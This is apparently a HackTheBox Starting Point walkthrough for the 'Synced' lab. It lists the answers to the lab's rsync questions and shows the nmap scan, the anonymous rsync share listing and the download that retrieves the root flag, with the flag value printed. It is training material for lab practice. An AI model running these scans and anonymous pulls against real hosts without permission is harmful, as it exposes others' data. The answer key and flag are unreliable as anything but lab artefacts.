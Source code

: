 ```yaml
---
title: 🔵 HTB / Starting Point / Synced
date: 2023-08-17
categories: [HackTheBox, Machines]
tags: [rsync]
---
```


# Synced

What is the default port for rsync?

`873`

How many TCP ports are open on the remote host?

`1`

What is the protocol version used by rsync on the remote machine?

`31`

What is the most common command name on Linux to interact with rsync?

`rsync`

What credentials do you have to pass to rsync in order to use anonymous authentication?

`None`

What is the option to only list shares and files on rsync?

`--list-only`

Submit root flag

```bash
$ nmap -sV -p- <ip>
...
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)

$ rsync --list-only <ip>::
public         	Anonymous Share

$ rsync --list-only <ip>::public
drwxr-xr-x          4,096 2022/10/24 23:02:23 .
-rw-r--r--             33 2022/10/24 22:32:03 flag.txt

$ rsync -azvh None@<ip>::public ./
receiving incremental file list
./
flag.txt

sent 50 bytes  received 158 bytes  24.47 bytes/sec
total size is 33  speedup is 0.16

$ cat flag.txt
72eaf5344ebb84908ae543a719830519
```
